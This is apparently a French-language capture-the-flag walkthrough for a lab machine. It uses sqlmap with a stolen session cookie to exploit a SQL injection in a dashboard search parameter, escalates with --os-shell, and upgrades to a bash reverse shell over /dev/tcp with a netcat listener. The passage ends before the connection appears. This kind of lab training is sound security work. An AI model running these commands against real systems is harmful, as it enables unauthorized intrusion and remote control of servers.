 ### SQLmap

SQLmap est un outil open-source utilisé dans les tests de pénétration pour détecter et exploiter les failles d'injection SQL. SQLmap automatise le processus de détection et d'exploitation des injections SQL.

Il est pré-installé avec Parrot OS et Kali Linux, mais vous pouvez l'installer via le dépôt si vous ne l'avez pas :

- **Commande** : `sudo apt install sqlmap`

Pour voir comment l'utiliser, tapez la commande suivante :

- **Commande** : `sqlmap --help`

Nous allons fournir l'URL et le cookie à sqlmap pour qu'il trouve la vulnérabilité. La raison pour laquelle nous devons fournir un cookie est à cause de l'authentification :

Pour obtenir le cookie, nous pouvons intercepter une requête dans Burp Suite et l'obtenir de là, ou installer une extension géniale pour votre navigateur web appelée cookie-editor :

- **Pour Google Chrome** : [Cookie Editor](https://chrome.google.com/webstore/detail/cookie-editor/hlkenndednhfkekhgcdicdfddnkalmdm)
- **Pour Firefox** : [Cookie Editor](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/)

Les cookies dans les messages HTTP des requêtes sont généralement définis de la manière suivante :
`PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1`

Sachant cela, voici à quoi devrait ressembler notre syntaxe sqlmap :

- **Commande** : `sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1"`

Nous avons exécuté sqlmap :

Note : Il y aura quelques questions que l'outil vous posera, vous pouvez répondre par 'Y' ou 'N', ou simplement en appuyant sur ENTRÉE pour la réponse par défaut.

La sortie importante pour nous est la suivante :

`GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N]`

L'outil a confirmé que la cible est vulnérable à l'injection SQL, ce qui est tout ce que nous avions besoin de savoir. Nous allons exécuter à nouveau sqlmap, où nous allons fournir le drapeau `--os-shell` pour pouvoir effectuer une injection de commande :

- **Commande** : `sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1" --os-shell`

Nous avons obtenu le shell, mais il n'est pas très stable et interactif. Pour le rendre plus stable, nous utiliserons la charge utile suivante :

- **Commande** : `bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`

Nous allons démarrer l'écouteur Netcat sur le port 443 :

- **Commande** : `nc -lvnp 443`

Ensuite, nous exécuterons la charge utile :

Nous retournons à notre écouteur pour voir si nous avons la connexion :
